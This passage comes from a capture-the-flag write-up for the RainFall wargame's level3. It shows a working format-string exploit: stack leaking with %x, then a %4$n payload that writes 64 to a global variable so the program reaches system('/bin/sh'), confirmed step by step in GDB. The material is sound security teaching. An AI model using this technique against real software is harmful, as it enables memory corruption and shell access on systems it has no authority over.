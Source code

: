 This matches the buffer address seen earlier (`0xbffff520`), confirming the layout precisely.

### Step 3: Examine Address on Stack

Let’s inject the address of `m` and observe its placement:

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

This shows that the address of `m` is at the **4th position** on the stack.

### Step 4: Test Format String Write

Our goal is to write the value 64 (0x40) to the memory location `0x0804988c`, where the global variable `m` is stored. The format specifier `%n` will write the number of characters printed so far to the memory address we place on the stack.

We craft a payload that prints 64 characters before reaching `%4$n`:

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/exploit
```

To validate that the payload works as expected, we place two breakpoints in GDB:

* The first is set just after the call to `printf()` at address `0x080484da`, where the program checks the value of `m`.
* The second is placed on the `system()` function, to confirm that the program attempts to launch a shell.

```gdb
(gdb) break *0x080484da    # Right after printf(), before comparing m
(gdb) break system         # Catch call to system("/bin/sh")
(gdb) run < /tmp/exploit
```

Once the first breakpoint is hit, we inspect the value of `m`:

```gdb
(gdb) x/wx 0x0804988c
0x804988c <m>:  0x00000040
```

This confirms that `%n` successfully wrote the value `0x40` (64 in decimal) to `m`.

When execution resumes, GDB stops again at the `system()` call. We can inspect its argument:

```gdb
(gdb) continue
Continuing.
Wait what?!

Breakpoint 2, 0xb7e6b060 in system () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/4wx $esp
0xbffff50c:     0x08048518      0x0804860d      0x00000001      0x0000000c
(gdb) x/s 0x0804860d
0x804860d:       "/bin/sh"
```
